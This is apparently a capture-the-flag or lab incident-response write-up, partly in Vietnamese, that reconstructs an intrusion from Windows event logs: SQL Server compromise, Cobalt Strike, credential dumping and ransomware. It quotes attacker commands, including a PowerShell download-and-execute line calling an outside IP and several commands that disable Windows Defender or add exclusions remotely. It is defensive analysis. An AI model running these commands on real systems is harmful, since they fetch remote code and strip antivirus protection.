

## DC01 {#3487b0eb61a4804db8eedf775dae6964}


### Q1 Windows Defender flagged a suspicious executable. Can you identify the name of this executable? {#3487b0eb61a480f5a4dfc527d22153b1}


:::tip

EventID 1116 MALWAREPROTECTION_STATE_MALWARE_DETECTED \
**Event ID 1117 đã xử lý thành công malware ở eventID 1116**

:::


12/14/2023 3:08:03 PM


`Path: file:_\\DC01\ADMIN$\8fe9c39.exe`


`Process Name: C:\Windows\Sysmon64.exe`


`Computer: DC01.NEXTECH.local`


`Name: Backdoor:Win64/CobaltStrike.NP!dha`


### Q2 What's the path that was added to the exclusions of Windows Defender? {#3487b0eb61a48016b50ddb47c0b27dd9}


Ta dùng eventID 5007: 


`Microsoft Defender Antivirus Configuration has changed.
Old value:
New value: HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths\C:\ = 0x0`


### Q3 What’s the IP of the machine that initiated the remote installation of the malicious service? {#3487b0eb61a48078a35ff9ed1be0f09d}


Dò trên sysmon eventid 3 thì thấy 


Information	12/14/2023 3:07:03 PM	Microsoft-Windows-Sysmon	3	(3)


Dùng winRM


source:  192.168.170.142 


des: 192.168.170.124 


Để chắc chắn 192.168.170.124 là IP của DC01. Ta dùng registry explorer. Vào hive `SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces`


Như vậy IP winRM sang DC01 là 192.168.170.142


## SQLServer {#3487b0eb61a4800ba111e36a43df5312}


### Q4 What’s the name of the process that had suspicious behavior as detected by Windows Defender? {#3487b0eb61a4805a8bbcd9e9590328c8}


Tương tự vô log của SQL tại `\Windows\System32\winevt\Logs\Microsoft-Windows-Windows Defender%4Operational.evtx`


`Path behavior:_process: C:\Windows\System32\cmd.exe,`  


Warning	12/14/2023 2:45:23 PM	Windows Defender	1116	None


Chạy sang eventID 1 thì thấy


 `CommandLine "C:\Windows\system32\cmd.exe" /c powershell "IEX (New-Object Net.WebClient).DownloadString('http://5.188.91.243/fJSYAso.ps1')"` 


`ParentImage C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Binn\sqlservr.exe
ParentCommandLine "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Binn\sqlservr.exe" -sMSSQLSERVER`


### Q5 What’s the parent process name of the detected suspicious process? {#3487b0eb61a480178de1f50e61e5d31d}


sqlservr.exe


### Q6 Initial access often involves compromised credentials. What is the SQL Server account username that was compromised? {#3487b0eb61a4800fa476efc7012a83a2}


Ta kiểm tra security log thấy trống trơn


Khả năng hacker đã xóa dấu vết


Vào MSSQL server thì toàn là file xel và trc


Trong errorlog





2023-12-14 06:43:37.42 Logon       Login succeeded for user 'sa'. Connection made using SQL Server authentication. [CLIENT: 5.188.91.243]
2023-12-14 06:43:52.13 spid51      Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
2023-12-14 06:44:08.85 spid51 bật `xp_cmdshell`


### Q7 Following the compromise, a critical server configuration was modified. What feature was enabled by the attacker? {#3487b0eb61a4809bb1f1f5a7dcc52e83}


`xp_cmdshell`


### Q8 What’s the command executed by the attacker to disable Windows Defender on the server? {#3487b0eb61a4807ebe3dc8e60acb088a}


 2023-12-14 14:44:51.012 


	`CommandLine "C:\Windows\system32\cmd.exe" /c powershell "Get-Service"` 


	Discovery


 2023-12-14 14:45:13.177 


	`Set-MpPreference -DisableRealtimeMonitoring 1`


### Q9 What's the name of the malicious script that the attacker executed upon disabling AV? {#3487b0eb61a48044aac6df7257d657a6}


12/14/2023 2:45:23 PM
 `CommandLine "C:\Windows\system32\cmd.exe" /c powershell "IEX (New-Object Net.WebClient).DownloadString('http://5.188.91.243/fJSYAso.ps1')"` 
Đã tìm thấy ở trên


### Q10 What's the PID of the injected process by the attacker? {#3487b0eb61a480299dbfd81eb2954cc0}


Đi tìm eventID 8 với trường hợp process injection


### Q11 Attackers often maintain access by the creation of scheduled tasks. What’s the name of the scheduled task created by the attacker? {#3487b0eb61a480ef8d4ddcc51927c03f}


2023-12-14 14:53:13.464 tạo UpdateCheck


### Q12 What’s the PID of the malicious process that dumped credentials? {#3487b0eb61a480368f62fc8235a781b9}


2023-12-14 15:00:42.228


	credential dumping


	0x1010


### Q13 What's the command used by the attacker to disable Windows Defender remotely on FileServer? {#3487b0eb61a480df957aecf33f5a2a5d}


2023-12-14 15:07:01.489


	```c++
	Invoke-Command -ComputerName DC01 -ScriptBlock { Add-MpPreference -ExclusionPath "C:\" }
	Invoke-Command -ComputerName DC01 -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f }
	Invoke-Command -ComputerName FileServer -ScriptBlock { Add-MpPreference -ExclusionPath "C:\" }
	Invoke-Command -ComputerName FileServer -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f }
	```


 2023-12-14 15:14:04.131 


	```c++
	powershell -nop -exec bypass -EncodedCommand Invoke-Command -ComputerName DevPC -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f } - Tắt wd trên DevPC
	```


## FileServer {#3487b0eb61a480cfade5e3ec382ea703}


### Q14 What's the name of the malicious service executable blocked by Windows Defender? {#3487b0eb61a480af9f83c8b51c48d71c}


12/14/2023 3:02:48 PM


## DevPC {#3487b0eb61a480d6a21ad9b716b5d491}


### Q15 What’s the name of the ransomware executable dropped on the machine? {#3487b0eb61a4807fae74fdc2aa29aec3}


Sang eventID 11 thấy rất nhiều file bị vmware.exe mã hóa


### Q16 What’s the full path of the first file dropped by the ransomware? {#3487b0eb61a4807ebeeed4766c9672a6}


C:\Users\dmiller\Downloads\HHuYRxB06.README.txt


# Cách làm thuần disk forensics - dùng bộ EZ’s tools {#3487b0eb61a4806cbceec57a4451ca14}


**Q3 [DC01] What’s the IP of the machine that initiated the remote installation of the malicious service?**


# Tổng kết {#3487b0eb61a4807c9248e07c9869381f}


2023-12-14 06:42: ghi nhận tấn công brute force vào tài khoản sa của SQL server (initial access)


2023-12-14 06:43:37.42 đối tượng đăng nhập thành công và bật xp_cmdshell lên 


 2023-12-14 14:44:51.012 


	CommandLine "C:\Windows\system32\cmd.exe" /c powershell "Get-Service" 


	Discovery


 2023-12-14 14:45:13.177: defense evasion


	Set-MpPreference -DisableRealtimeMonitoring 1 (tắt windows defenders)


2:45:23 PM: execution


	 Đối tượng dùng quyền đã được cấp, thực thi lệnh powershell tải file từ http://5.188.91.243/fJSYAso.ps1'


2023-12-14 14:53:13.464: persistence


	tạo cheduled task: UpdateCheck


2023-12-14 15:00:42.228 credential access tiến hành credential dumping với lsass.exe


12/14/2023 3:02:48 PM: persistence -  chạy cobalt strike backdoor ceabe99.exe trên fileserver


12/14/2023 3:08:03 PM -lateral movement:  đối tượng copy file:_\\DC01\ADMIN$\8fe9c39.exe từ SQL qua DC01 để lateral movement


2023-12-14 15:04:24: defense evasion


	Dùng winRM port 5589 tắt windows defenders và tạo exclusion path trên các máy trạm và DC01


	```c++
	Invoke-Command -ComputerName DC01 -ScriptBlock { Add-MpPreference -ExclusionPath "C:\" }
	Invoke-Command -ComputerName DC01 -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f }
	Invoke-Command -ComputerName FileServer -ScriptBlock { Add-MpPreference -ExclusionPath "C:\" }
	Invoke-Command -ComputerName FileServer -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f }
	```


 2023-12-14 15:14:04.131  defense evasion


	`powershell -nop -exec bypass -EncodedCommand Invoke-Command -ComputerName DevPC -ScriptBlock { reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f } -` Tắt wd trên DevPC


 2023-12-14 15:16:55.467: lateral movement: hacker copy file  20df43c.exe sang DEVPC là gọi rundll32.exe


 2023-12-14 15:21:55.676: rundll32.exe sau đó tạo ra file vmware.exe


	2023-12-14 15:22: Impact ransomware


	`C:\windows\temp\vmware.exe` trên DevPC tiến hành mã hóa ransomware hàng loạt file. Đồng thời tạo file C:\Users\dmiller\Downloads\HHuYRxB06.README.txt để báo người dùng biết.

